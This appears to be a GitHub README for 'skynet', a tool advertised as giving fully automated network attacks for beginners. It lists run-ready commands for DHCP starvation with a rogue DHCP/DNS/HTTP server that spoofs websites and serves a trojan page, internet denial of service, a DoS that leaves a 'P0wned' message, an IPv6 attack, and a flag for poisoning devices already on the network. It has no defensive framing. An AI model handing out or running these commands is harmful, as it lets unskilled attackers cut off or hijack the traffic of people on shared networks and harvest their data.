




# Skynet Command Showcase

This repository demonstrates various skynet commands and attacks. Each command is accompanied by a brief description and an image illustrating the attack.
This modes of attack are 100% automated. The user only have to execute it and wait. They are designed for beginners.
**IMPORTANT: to try to poison devices that have already connected, use "--delete-leases-attack" argument with all the command.**

## Table of Contents

1. [Command 1: Website spoofing](#command-1-website-spoofing)
2. [Command 2: Internet DoS](#command-2-internet-DoS)
3. [Command 3: Passive internet DoS with message](#command-3-passive-internet-DoS-with-message)
4. [Command 4: IPv6 attack](#command-4-IPv6-attack)

## Command 1: Website spoofing

### Description
First does a DoS to the legit DHCP, then starts a rogue DHCP+DNS+HTTP server instances. All in the second phase pointing to the attacker's machine.

### Command
```bash
sudo ./skynet --attack --create-pool --all-queries-to-this-host --create-trojan-web 0
```

### Image


## Command 2: Internet DoS

### Description
This attack leaves hosts that receive configuration via DHCP without an Internet connection.

### Command
```bash
sudo ./skynet --fast-attack --create-random-pool
```

### Image


## Command 3: Passive internet DoS with message

### Description
This attack leaves a message on the server it attacks and leaves without internet due to the absence of a DHCP server.

### Command
```bash
sudo ./skynet --leave-a-message "t-P0wned HAHA" --attack
```

### Image


## Command 4: IPv6 attack

### Description
This attack is for the IPv6 protocol.

### Command
```bash
sudo ./skynet --ipv6 --no-draw --continued-attack
```

### Image

